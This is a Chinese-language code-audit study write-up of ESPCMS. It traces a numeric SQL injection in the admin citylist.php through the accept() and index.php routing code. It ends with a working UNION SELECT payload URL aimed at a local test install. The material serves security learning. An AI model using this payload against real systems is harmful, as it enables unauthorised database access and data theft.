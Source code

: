 ## espcms


# 前言

- 代码审计学习-espcms
- 开始日期：2021-5.28
- 结束日期: 2021-5.28


## 环境准备
- PHPStudy
- espcms 源码
    - 下载地址：http://down.chinaz.com/soft/27695.htm
- Seay源代码审计工具

**环境搭建**

将epscms的upload里面所有源码放到网站www目录下,访问地址http://127.0.0.1/install，一路继续即可，注意数据库用户和密码改为自己的

![image](./img/espcms1.png)

## 审计过程

首先用seay源代码审计系统跑一下自动审计，如图：

![image](./img/espcms2.png)

分析其中的citylist.php文件(/adminsoft/control/citylist.php)
```php
$sql = "select * from $db_table where parentid=$parentid";
```
该SQL语句没有引号保护，可能存在数字型注入。 

定位$parentid变量

```php
$parentid = $this->fun->accept('parentid', 'R');
$parentid = empty($parentid) ? 1 : $parentid;

$sql = "select * from $db_table where parentid=$parentid";
$rs = $this->db->query($sql);
```

$parentid变量在oncitylist()函数中，是accept('parentid', 'R')函数的返回值，右键定位accept函数。

```php
	function accept($k, $var='R', $htmlcode=true, $rehtml=false) {
		switch ($var) {
			case 'G':
				$var = &$_GET;
				break;
			case 'P':
				$var = &$_POST;
				break;
			case 'C':
				$var = &$_COOKIE;
				break;
			case 'R':
				$var = &$_GET;  //让parentid变成变量
				if (empty($var[$k])) { //$_GET['parentid']
					$var = &$_POST;
				}
				break;
		}
		$putvalue = isset($var[$k]) ? $this->daddslashes($var[$k], 0) : NULL;
		return $htmlcode ? ($rehtml ? $this->preg_htmldecode($putvalue) : $this->htmldecode($putvalue)) : $putvalue;
	}

```
由此可知，这是一个获取GET、POST、COOKIE参数值的函数，我们传入的变量是parentid和R，则代表在GET与POST都可以获取parentid参数，最后经过了一个daddslashes函数，本质上是包装的addslashes()函数，对单双引号、反斜杆与空进行过滤。但前面的SQL语句是没有引号包含，存在数字型注入。

在citylistphp文件可用看到SQL语句在oncitylist()函数中，同时该函数又在important类中，右键选中该类名进行全局搜索。可以发现在index.php有实例化的类。

```php
$point = indexget('point', 'R'); //获取过滤后的point
$point = empty($point) ? 'admin' : $point;
$archive = indexget('archive', 'R'); //获取过滤后的$archive
$archive = empty($archive) ? 'adminuser' : $archive;
$action = indexget('action', 'R');//获取过滤后的action
$action = empty($action) ? 'login' : $action;
$soft_MOD = array('admin', 'public', 'product', 'forum', 'filemanage', 'basebook', 'member', 'order', 'other', 'news', 'inc', 'cache', 'bann', 'logs', 'template');
if (in_array($point, $soft_MOD)) {
	include admin_ROOT . adminfile . "/control/$archive.php";
	$control = new important();
	$action = 'on' . $action;
	if (method_exists($control, $action)) {
		$control->$action();
	} else {
		exit('错误：系统方法错误！');
	}
```

indexget函数跟accept函数功能是一样的。

### 漏洞触发

开头SQL语句位于`oncitylist()`函数，该函数时`important`类的成员函数，其所在文件为`/adminsoft/control/citylist.php`,因此上面文件包含我们先要包含这个文件，即`$archive=citylist`。

$archive 变量的取值范围是 /adminsoft/control 下的文件名，默认为 adminuser。
$action 变量的值，在其前加上 on 就是上述文件里的函数名，默认为 login。



payload如下：
```payload
http://127.0.0.1/adminsoft/index.php?archive=citylist&action=citylist&parentid=-1%20union%20select%201,2,user(),4,5
```

![image](./img/espcms3.png)

黑盒测试发现得先需要登录后台才能利用，实战中并没有多大利用，就当代码审计学习了。
### Resource
https://6xian.github.io/2018/04/22/codes-audit-basic-espcms-numeric-sqli/

https://www.codenong.com/cs107094320/